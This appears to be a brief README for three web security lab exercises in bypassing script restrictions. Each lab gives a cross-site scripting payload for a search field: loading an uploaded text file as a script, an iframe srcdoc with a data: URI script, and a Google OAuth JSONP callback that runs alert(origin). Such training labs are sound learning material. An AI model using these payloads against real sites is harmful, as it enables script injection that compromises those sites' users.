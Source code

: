 ## Lab 1
   Step 1: Upload a .txt [file](./lab1/src/upload/readme.txt) using JavaScript code

   Step 2: Search= `<script src="/upload/[filename]"></script>`      

## Lab 2: 
   Search= `<iframe srcdoc='<script src="data:text/javascript,alert(origin)"></script>'></iframe>`

## Lab 3:
   Search= `<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(origin)"></script>`
